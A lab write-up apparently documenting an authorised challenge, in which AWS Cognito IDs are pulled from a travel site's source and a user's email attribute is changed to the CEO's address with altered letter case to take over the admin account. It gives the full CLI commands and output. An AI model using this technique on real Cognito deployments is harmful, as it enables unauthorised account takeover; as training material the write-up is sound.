





# Challenge Lab Name: `Incognito Travel`
<details open>
<summary><b>Engagement Overview</b></summary>

> **Platform:** `HackSmarter Labs` &nbsp;|&nbsp; **Services:** `Cognito`, `API Gateway`  
>
> **Objective:** Incognito Travel is rolling out a new authentication process for their flagship travel application. Before deploying to production, they have contracted Hack Smarter to rigorously test the new authentication flow. The target application leverages Amazon Cognito to handle its identity and access management.
> Can you take over the admin's account?
> 
> **Initial Access:** The client has provided you with the URL but no other information for intitial access.

</details>

## Detailed Methodology
<details open>
<summary><b>Initial Access</b></summary>

The initial access given was a website URL:
`http://incognito-travel-frontend-797989097992.s3-website-us-east-1.amazonaws.com`.

### Manual Website Reconnaissance 
Since the initial access was a website, I manually checked to see if I could find useful information. 
#### About Section
Viewing the **About** section, I noted that the CEO's email address was listed: `cory@hacksmarter.hsm`.

<div align="center">
  
  <p><em>Viewing the website's 'About' section.</em></p>
</div>

This email might be the admin account needed to prove impact. This email could possibly be used later after registering a new user. 

#### Login Page
The login page showed me that an email (placeholder shown earlier) and password is required to login or signup. 
<div align="center">
  
  <p><em>Viewing the website's Authentication form.</em></p>
</div> 

<div align="center">
  
  <p><em>Viewing the website's Request Access form.</em></p>
</div> 

#### Source Code Analysis
When I checked the source code of the website, using the Developer Tools, I found a lot of information.

<div align="center">
  
  <p><em>Webhook website to generate an email.</em></p>
</div>

<details>
<summary><b>Javascript Code</b></summary>

```javascript
        const COGNITO_CONFIG = { userPoolId: 'us-east-1_BnCkqxdPm', clientId: '6d7itdcnui3kejh7l170ivra3o' };
        const API_URL = 'https://0vfcx3blxb.execute-api.us-east-1.amazonaws.com'; 
        let isLogin = true;

        function openModal() { document.getElementById('login-modal').style.display = 'flex'; }
        function closeModal() { document.getElementById('login-modal').style.display = 'none'; }
        function logout() { localStorage.clear(); location.reload(); }

        function toggleAuth() {
            isLogin = !isLogin;
            document.getElementById('modal-title').innerText = isLogin ? 'Authenticate' : 'Request Access';
            document.getElementById('action-btn').innerText = isLogin ? 'Login' : 'Submit Request';
            document.getElementById('toggle-link').innerText = isLogin ? 'Request Access' : 'Return to Authentication';
            document.getElementById('message').innerText = '';
        }

        async function handleAuth() {
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;
            const msg = document.getElementById('message');
            if (isLogin) {
                try {
                    const res = await fetch(`${API_URL}/login`, { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ email, password }) });
                    const data = await res.json();
                    if (res.ok && data.tokens) {
                        localStorage.setItem('id_token', data.tokens.id_token);
                        localStorage.setItem('token', data.tokens.access_token);
                        msg.style.color = 'var(--success)'; msg.innerText = "Access Granted.";
                        setTimeout(() => { closeModal(); loadProfile(data.tokens.id_token); }, 1000);
                    } else { msg.innerText = data.message; }
                } catch (e) { msg.innerText = "Offline."; }
            } else {
                try {
                    const res = await fetch(`${API_URL}/register`, { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ email, password }) });
                    const data = await res.json();
                    if (res.ok) { msg.style.color = 'var(--success)'; msg.innerText = data.message; setTimeout(() => toggleAuth(), 2000); }
                    else { msg.innerText = data.message; }
                } catch (e) { msg.innerText = "Error."; }
            }
        }

        async function loadProfile(token) {
            try {
                const res = await fetch(`${API_URL}/profile`, { headers: { 'Authorization': `Bearer ${token}` } });
                const data = await res.json();
                if (data.profile) {
                    document.getElementById('landing-page').style.display = 'none';
                    document.getElementById('dashboard-panel').style.display = 'block';
                    document.getElementById('nav-login-btn').style.display = 'none';
                    document.getElementById('user-greeting').style.display = 'inline';
                    document.getElementById('user-greeting').innerText = `Agent: ${data.profile.name}`;
                    document.getElementById('logout-link').style.display = 'inline';
                    document.getElementById('profile-name').innerText = data.profile.name;
                    document.getElementById('update-name').value = data.profile.name;
                    document.getElementById('update-email').value = data.profile.email;
                    if (data.profile.flag) { document.getElementById('flag-container').style.display = 'block'; document.getElementById('flag-value').innerText = data.profile.flag; }
                    const tripsList = document.getElementById('trips-list');
                    if (data.profile.trips.length > 0) {
                        tripsList.innerHTML = data.profile.trips.map(t => `<div class="trip-item"><strong>${t}</strong></div>`).join('');
                    } else { tripsList.innerHTML = "<p>No active missions.</p>"; }
                }
            } catch (e) { console.error(e); }
        }

        async function updateProfile() {
            const token = localStorage.getItem('id_token');
            const name = document.getElementById('update-name').value;
            const msg = document.getElementById('dashboard-msg');
            try {
                const res = await fetch(`${API_URL}/update-profile`, { method: 'POST', headers: { 'Content-Type': 'application/json', 'Authorization': `Bearer ${token}` }, body: JSON.stringify({ name }) });
                const data = await res.json();
                msg.style.color = res.ok ? 'var(--success)' : 'var(--danger)'; msg.innerText = data.message;
            } catch (e) { msg.innerText = "Failed."; }
        }

        window.onload = () => { const token = localStorage.getItem('id_token'); if (token) loadProfile(token); };
```
</details>

#### Source Code Findings
This is what I found from manually reviewing the website's source code:
- A User Pool ID
    - `userPoolId: 'us-east-1_BnCkqxdPm'`
- A Client ID
    - `clientId: '6d7itdcnui3kejh7l170ivra3o' `
- An API URL
    - `API_URL = 'https://0vfcx3blxb.execute-api.us-east-1.amazonaws.com'`
- API Endpoints 
    - `${API_URL}/login`
    - `${API_URL}/register`
    - `${API_URL}/profile`
    - `${API_URL}/update-profile`

Using the **User Pool ID** and **Client ID** I could try and create a new user on this website. 
</details>

<details open>
<summary><b>Creating a New User with Cognito</b></summary>
With the information found on the website, I know that the signup requires a email for the username and a password. 

### Registering a New User
Before running the commands to register a new user, I went to `https://webhook.site/` to generate an email to confirm my user once I registered. 

The command I used to register:
```bash
└─$ aws cognito-idp sign-up --client-id 6d7itdcnui3kejh7l170ivra3o --username [REDACTED_EMAIL]@emailhook.site --password 'Password123!' --region us-east-1
{
    "UserConfirmed": false,
    "CodeDeliveryDetails": {
        "Destination": "2***@e***",
        "DeliveryMedium": "EMAIL",
        "AttributeName": "email"
    },
    "UserSub": "14484498-2091-7002-4913-9b7b7df1b999"
}
```

After entering the command, I checked the webhook website and saw a confirmation email containing a confirmation code.

<div align="center">
  
  <p><em>Viewing the confirmation email on the Webhook website.</em></p>
</div>

Using the code from the email, I confirmed the new user running this command (there's no output):
```bash
aws cognito-idp confirm-sign-up --client-id 6d7itdcnui3kejh7l170ivra3o --username [REDACTED_EMAIL]@emailhook.site --confirmation-code 972247 --region us-east-1
```

Now that I had created the user, I tried signing in using the command below which outputted the new user's `AccessToken`, `RefreshToken`, and `IdToken`. This also let me know that the new user's registration was successful. Using the login page shown earlier, it would be possible to use the email and password I registered.

```bash
aws cognito-idp initiate-auth --client-id 6d7itdcnui3kejh7l170ivra3o --auth-flow USER_PASSWORD_AUTH --auth-parameters USERNAME=2aec2ae6-70b8-42fc-8325-3741518f3a2f@emailhook.site,PASSWORD=Password123! --region us-east-1
{
    "ChallengeParameters": {},
    "AuthenticationResult": {
        "AccessToken": "eyJraWQiOiJKcVIyNE....G7Nlkcw",
        "ExpiresIn": 3600,
        "TokenType": "Bearer",
        "RefreshToken": "eyJjdHki....Gnc5TAkgTg",
        "IdToken": "eyJraWQ.....mjueg"
    }
}
```
### Check New User's Attributes 
Since I now had a new user with a `AccessToken` JWT, I created an environment variable that contained the `AccessToken` to make future commands simpler.

```bash
export TOKEN='eyJraWQiOiJKcVIy.....fMQVAHYjnhshxG7Nlkcw'
```
Now with the `AccessToken` set as an environment variable (optional), I could check the new user's attributes:

```bash
└─$ aws cognito-idp get-user --access-token $TOKEN --region us-east-1
{
    "Username": "14484498-2091-7002-4913-9b7b7df1b999",
    "UserAttributes": [
        {
            "Name": "email",
            "Value": "[REDACTED_EMAIL]@emailhook.site"
        },
        {
            "Name": "sub",
            "Value": "14484498-2091-7002-4913-9b7b7df1b999"
        }
    ]
}
```

The output showed that the new user had a `sub` and an `email` attribute. From here, I could try to escalate my privileges by exploitating misconfigurations that might be in place.

</details>


<details open>
<summary><b>Exploitation & Admin Account Takover</b></summary>

In the source code shown earlier, I found the API URL and some endpoints used in this application. If the AWS Cognito configurations allow writeable attributes and have improper user identification, I could escalate privileges by changing the new user's email to the CEO's email found earlier. 

The API endpoint that could possibly allow me to change the email would be `update-profile`.

### Email Case Sensitivity 
Originally I did try to change the new user's email to the CEO's email running this command:

```bash
└─$ aws cognito-idp update-user-attributes --access-token "$TOKEN" --user-attributes Name=email,Value="cory@hacksmarter.hsm" --region us-east-1

aws: [ERROR]: An error occurred (AliasExistsException) when calling the UpdateUserAttributes operation: An account with the given email already exists.
```
And running this command showed an error letting me know that the given email already existed. After viewing an article showing full account takeover using AWS Cognito, `https://www.cobalt.io/blog/full-account-takeover-via-aws-cognito-misconfiguration`, I noticed that I needed to change a letter before the `@` to an uppercase. 

```bash
└─$ aws cognito-idp update-user-attributes --access-token "$TOKEN" --user-attributes Name=email,Value="Cory@hacksmarter.hsm" --region us-east-1
{
    "CodeDeliveryDetailsList": [
        {
            "Destination": "C***@h***",
            "DeliveryMedium": "EMAIL",
            "AttributeName": "email"
        }
    ]
}
```
Once I ran the command with at least one uppercase in the email, I got a different output. To check that the change was successful I ran the command to show the user's attributes again:

```bash
└─$ aws cognito-idp get-user --access-token $TOKEN --region us-east-1
{
    "Username": "14484498-2091-7002-4913-9b7b7df1b999",
    "UserAttributes": [
        {
            "Name": "email",
            "Value": "Cory@hacksmarter.hsm"
        },
        {
            "Name": "sub",
            "Value": "14484498-2091-7002-4913-9b7b7df1b999"
        }
    ]
}
```
This time instead of the webhook email, there was the CEO's email with a capital `C`. This output let me know that I could try and log in with the CEO's email even though the letter case was different. 

<div align="center">
  
  <p><em>Authenticating using the CEO's email with a different letter case.</em></p>
</div>

<div align="center">
  
  <p><em>Viewing the admin's dashboard.</em></p>
</div>

I was able to use the credentials I had updated to the profile and the password I had already set for the new user. 

</details>


<details open>
<summary><b>Impact & Post-Exploitation Potential</b></summary>

With the administrative privileges for the travelling website there is potential to view and write changes to all users and sensitive data.

</details>
